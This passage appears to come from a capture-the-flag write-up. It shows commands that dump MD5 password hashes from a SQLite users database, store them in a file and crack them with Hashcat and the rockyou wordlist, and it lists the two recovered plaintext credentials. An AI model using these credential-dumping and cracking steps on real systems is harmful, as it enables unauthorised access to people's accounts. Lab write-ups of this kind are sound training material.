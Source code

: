 ![](<./attachments/Artificial-5.png>)
### **Dumping and Cracking Password Hashes**
From shell, I dumped the stored password hashes directly from the database (after exiting the SQLite prompt with `.quit` if needed):
```sql
sqlite3 instance/users.db "SELECT password FROM user;"
```

Instead of transferring the file, quickly copied all hashes, created a file locally, and saved them:
```bash
echo "c99175974b6e192936d97224638a34f8  
0f3d8c76530022670f1c6029eed09ccb  
b606c5f5136170f15444251665638b36  
bc25b1f80f544c0ab451c02a3dca9fc6  
bf041041e57f1aff3be7ea1abd6129d0  
8ec161b7dfed598de01e29668540e01c  
10538528e83ff3ce84b69c623c402df2  
e55d8b461e966a18d7f4631713674035  
e55d8b461e966a18d7f4631713674035" > hash.txt
```
With the hashes saved, used **Hashcat** on my attacker machine to crack them with the `rockyou.txt` wordlist:
```bash
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force  
hashcat -m 0 hash.txt --show
```
### Cracked Credentials

Running Hashcat against the `rockyou.txt` wordlist quickly revealed two valid credentials:
```txt
gael : mattp005numbertwo  
robert : marwinnarak043414036
```
